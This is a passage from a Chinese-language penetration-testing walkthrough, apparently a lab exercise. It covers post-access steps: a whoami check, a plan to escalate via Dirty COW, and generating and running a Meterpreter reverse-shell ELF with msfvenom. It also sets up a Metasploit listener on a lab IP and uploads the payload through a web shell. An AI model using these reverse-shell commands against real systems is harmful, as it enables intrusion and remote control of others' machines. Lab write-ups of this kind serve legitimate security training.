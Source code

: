 密码为：

```
123
```

![image-20220315162852260](https://gitee.com/xxb667/img/raw/master/img/image-20220315162852260.png)

```
whoami
```

![image-20220315162948905](https://gitee.com/xxb667/img/raw/master/img/image-20220315162948905.png)

# 4.提取



内核较老，尝试利用脏牛

## 4.1 木马文件生成

MSF生成木马，并开启监听

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.81.131 lport=4444 -f elf  >4444.elf
```

![image-20220315163654414](https://gitee.com/xxb667/img/raw/master/img/image-20220315163654414.png)



![image-20220315164444386](https://gitee.com/xxb667/img/raw/master/img/image-20220315164444386.png)

```
chmod +x 4444.elf
./4444.elf
```

![image-20220315170016973](https://gitee.com/xxb667/img/raw/master/img/image-20220315170016973.png)



kali设置监听

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.81.131
set LPORT 4444
exploit
```

设置完后，在蚁剑上允许我们上传的payload文件

也就是**4444.elf**文件
